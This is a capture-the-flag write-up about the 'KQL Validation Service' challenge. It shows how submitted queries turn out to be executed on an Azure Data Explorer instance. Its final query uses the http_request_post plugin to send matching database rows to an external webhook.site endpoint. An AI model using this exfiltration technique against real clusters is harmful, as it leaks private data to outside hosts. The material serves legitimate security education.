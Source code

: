 # KQL Validation Service

Writeup author: `0xle`

## Introduction

The *KQL Validation Service* seems to be a web application that allowed users to "validate" their KQL queries.

!["Validation" of an invalid KQL query.](assets/1.png)

Additionally, the frontend revealed various "cluster policies" which seems to be retrieved using
various [management commands](https://learn.microsoft.com/en-us/kusto/management/?view=azure-data-explorer).

![A page displaying "cluster policies".](assets/2.png)

## Analysis

Running probe queries for row(s) containing `EPT{` will reveal that the queries are not just *validated*, but actually
run against the Data Explorer instance.

**Query**:

```kql
let c = toscalar(search * | where * contains "EPT{" | count);
print assert(c != 0, "nope")
```

![Query displaying the existence of the flag.](assets/3.png)

Running a query with a gibberish string proves that the query is actually executed and not just validated. This will be
crucial for the exfiltration step later on.

![Query proving the execution on the Data Explorer instance.](assets/4.png)

Inspecting the "cluster policies" page will show that the `http_request` and the `http_request_post` plugins are enabled
for the Data Explorer instance.

![Policy showing the enabled HTTP request plugins.](assets/5.png)

To summarize the analysis phase concludes that:

- The query is actually being executed, and not just "validated".
- The flag most likely exists in the Data Explorer somewhere and should be accessible.
- The `http_request` and the `http_request_post` plugins are available for use.

## Exploitation

Since the validator does not have an easy way to output an arbitrary message, other means of extracting the data must be
used. Bruteforcing is most likely not possible if the task description can be taken with a grain of salt: "There is a
long flag in the Kusto database as well".

The HTTP request plugins were conveniently enabled and thus, can be used to send the data of the row(s) to an external
HTTP server. The website [webhook.site](https://webhook.site/) was to receive the data.

**Final query**:

```kql
let data = toscalar(search * | where * contains "}" | project a = dynamic_to_json(pack_all()));
evaluate http_request_post("https://webhook.site/...", dynamic({}), dynamic({}), data)
```

Explanation:

- The query searches for rows that has a string field containing `}`.
- The query [projects](https://learn.microsoft.com/en-us/kusto/query/project-operator?view=azure-data-explorer) the
  entire row as a JSON
  by [packing all the columns](https://learn.microsoft.com/en-us/kusto/query/pack-all-function?view=azure-data-explorer).
- The query invoked the [
  `http_request_post` plugin](https://learn.microsoft.com/en-us/kusto/query/http-request-post-plugin?view=azure-data-explorer)
  to send the row to an external HTTP server.

The query was first executed with `EPT{` as the search string, but that sent a bogus flag. The search string `}` was
later tried, which seemed to return the actual flag. (Note that a Regex could be used instead of a `contains` condition
since the task hinted that the flag is supposed to be *long*. For example, by using the following expression:
`where * matches regex "EPT.{10,}"`)

Executing the *final query* will result in the row containing the flag being sent to an external HTTP server thus,
gaining the
flag.

![Callback HTTP POST body containing the flag.](assets/6.png)